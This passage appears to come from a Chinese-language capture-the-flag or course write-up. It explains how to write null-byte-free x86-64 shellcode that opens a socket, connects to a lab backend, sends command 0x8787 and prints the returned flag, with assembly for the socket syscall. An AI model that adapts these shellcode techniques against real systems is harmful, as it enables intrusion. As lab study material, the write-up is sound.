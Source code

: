     # Write 0x8787 to fd
    struct Command cmd;
    cmd.cmd = 0x8787;
    write(fd, &cmd, sizeof(cmd));

    # Read the result from fd
    struct Response res;
    read(fd, $rsp, sizeof(res);
         
    # Write the result from fd to stdout
    write(1, $rsp, 0x40);
    ```
    簡單來說，前面需要我們設定socket的config，然後用這個config連線到後端，並且把command置換成0x8787，傳送到後端給的fd，這樣後段就會直接噴flag給我們(準確來說是那個fd)，所以我們要承接fd接到的flag並且送到stdout，大概是這樣，但這一連串的操作其實是助教一開始在課堂中有提示，並且看了@cs-otaku的WP也有提到該步驟才知道，所以如果都不知道以上操作的話要怎麼辦呢?我們可以想辦法把backend的binary讀出來，這樣的話就只能自行把backend的binary讀出來再去分析裡面的奧義
    
    我是直接用[godbolt](https://godbolt.org/)搭配[x86-64 disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)
    :::spoiler godbolt Result
    ![image](https://hackmd.io/_uploads/B1hxShgL6.png)
    :::
    不過正如@cs-otaku說的
    > 寫入content是用write去寫的。所以shellcode裡面不可以出現\x00這種東西

    所以我也是邊參考disassembly的結果慢慢看中間有沒有\x00的byte，如果有就要想其他的payload替換掉
    
    1. Socket Config
        像是這邊我不知道`AF_INET`所代表的byte是多少就可以直接看godbolt的結果，另外syscall要用哪一個可以參考[linux x86-64 syscall](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)，並且根據calling convention把shellcode擺好，切記看完之後要看一下轉換成shellcode看有沒有\x00的byte，可以用pwntools的asm function或是直接用[x86-64 disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)都可以達到一樣的效果
        ![image](https://hackmd.io/_uploads/HJUeP3lUp.png)
        ```python
        # int fd = socket(AF_INET, SOCK_STREAM, 0);
        socket = """
            xor rax, rax
            mov al, 0x29

            xor rdi, rdi
            mov dil, 0x2

            xor rsi, rsi
            mov sil, 0x1

            xor rdx, rdx

            syscall
            mov r8, rax
        """
        ```
    2. Connect
        這邊主要需要觀察protocol怎麼包，首先我們知道第一個參數是存\$rdi，也就是存上一個syscall的return value存起來的\$r8，至於\$rsi的info address，其內容應該怎麼包含甚麼呢?我們先看一下[linux x86-64 syscall](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)中的說明
        ![image](https://hackmd.io/_uploads/BktiY2e8a.png)
        他所需的是`struct sockaddr_in info;`，而實際去看看sockaddr_in會發現他的結構如下([csdn post](https://blog.csdn.net/dongyanxia1000/article/details/80683738)):
        ```
        struct sockaddr_in {
